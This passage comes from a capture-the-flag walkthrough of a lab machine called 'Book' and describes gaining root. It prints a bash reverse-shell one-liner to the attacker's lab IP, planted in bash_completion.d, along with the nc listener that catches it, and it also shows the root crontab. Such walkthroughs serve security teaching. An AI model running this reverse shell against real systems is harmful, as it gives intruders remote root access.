 

Once it returns, I can see the reverse shell is now in the
`bash_completion.d` folder:



    reader@book:/dev/shm$ ls -l /etc/bash_completion.d/
    total 32
    -r-xr-xr-x 1 reader reader    55 Feb 28 13:08 access.log
    -rw-r--r-- 1 root   root    6636 Nov 20  2017 apport_completion
    -rw-r--r-- 1 root   root    3211 Oct  2  2018 cloud-init
    -rw-r--r-- 1 root   root     439 Nov 26  2018 git-prompt
    -rw-r--r-- 1 root   root   11144 Mar 18  2019 grub

    reader@book:/dev/shm$ cat /etc/bash_completion.d/access.log 
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.30/443 0>&1 



A few seconds later I get a callback on my `nc` listener:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.176.
    Ncat: Connection from 10.10.10.176:56192.
    root@book:~# id
    uid=0(root) gid=0(root) groups=0(root) 



The first time I ran this the shell dropped after a few seconds. I had a
couple other false starts, but eventually got a shell that was stable. I
grabbed `root.txt`:



    root@book:~# cat root.txt  
    84da92ad************************



## Beyond Root

There's a lot of automated user activity on this box that's worth taking
a look at. All of it starts at the root crontab:



    root@book:~# crontab -l
    ...[snip]...
    # m h  dom mon dow   command
    @reboot /root/reset.sh
    * * * * * /root/cron_root
    */5 * * * * rm /etc/bash_completion.d/*.log*
    */2 * * * * /root/clean.sh
